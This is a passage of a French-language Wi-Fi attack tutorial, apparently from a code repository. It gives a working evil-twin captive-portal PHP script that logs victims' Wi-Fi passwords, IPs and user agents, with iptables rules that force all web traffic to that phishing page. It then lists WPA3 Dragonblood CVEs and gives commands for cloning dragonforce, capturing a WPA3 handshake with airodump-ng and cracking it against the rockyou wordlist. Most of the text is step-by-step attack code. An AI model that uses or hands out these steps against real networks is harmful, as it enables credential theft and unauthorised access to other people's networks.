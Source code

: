 #### **Script capture credentials**
```bash
# ÉTAPE 3 : Script PHP capture mots de passe
sudo nano /var/www/html/capture.php

# CONTENU SCRIPT :
<?php
$password = $_POST['wifi_password'];
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = $_SERVER['HTTP_USER_AGENT'];
$timestamp = date('Y-m-d H:i:s');

// Sauvegarder credential
$log = "[$timestamp] IP: $ip | Password: $password | UA: $user_agent\n";
file_put_contents('/tmp/evil_twin_capture.log', $log, FILE_APPEND);

// Rediriger vers vrai site
header('Location: https://www.google.com');
exit();
?>

# ÉTAPE 4 : Démarrer serveur web
sudo systemctl start apache2

# ÉTAPE 5 : Redirection tout trafic web vers captive portal
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.1.1:80
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 192.168.1.1:80
```

## 🔒 Attaques WPA3

### **Vulnérabilités WPA3 connues**

#### **Dragonfly handshake attacks**
```bash
# WPA3 utilise SAE (Simultaneous Authentication of Equals)
# Vulnérabilités découvertes en 2019 (Dragonblood)

VULNÉRABILITÉS WPA3 :
• CVE-2019-13456 : Information leak via timing
• CVE-2019-13377 : Cache-based side channel  
• CVE-2019-13466 : Dictionary attack possible

OUTILS POUR WPA3 :
• dragonforce (attaque dictionnaire SAE)
• dragondrain (DoS WPA3 handshake)
• dragontime (timing attack)
```

#### **Attaque WPA3 avec dragonforce**
```bash
# Installation outils WPA3
git clone https://github.com/vanhoefm/dragondrain-and-time.git
cd dragondrain-and-time

# Compilation
make

# Capture handshake WPA3 (similaire WPA2)
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wpa3_capture wlan1mon

# Attaque dictionnaire WPA3 SAE
./dragonforce wpa3_capture-01.cap /usr/share/wordlists/rockyou.txt
```